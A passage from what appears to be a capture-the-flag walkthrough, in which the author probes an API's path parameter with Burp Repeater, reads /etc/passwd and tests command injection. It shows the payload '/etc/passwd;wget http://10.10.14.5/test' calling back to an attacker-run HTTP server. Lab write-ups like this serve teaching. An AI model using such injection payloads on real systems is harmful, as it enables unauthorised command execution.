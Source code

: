 ![backup](../.res/2022-12-26-16-17-04.png)
- It needs a body and we should also change the content type header to application/json. So our request in burp repeater looks like this  
![request](../.res/2022-12-26-16-25-16.png)
- We have another info when we get the response. It also need a path.  
![response](../.res/2022-12-26-16-26-06.png)
- As it wants a path let's ask it for `/etc/passwd`. It seems to work but does not output the file  
![works](../.res/2022-12-26-16-28-10.png)
- Let's try to see if it can execute commands. This is the value that we will put in path `/etc/passwd;wget http://10.10.14.5/test`
- Alse before sending the request we need to launch our python http server, this way we will see if it actually checks the file. `python3 -m http.server 80`
- Here is our request  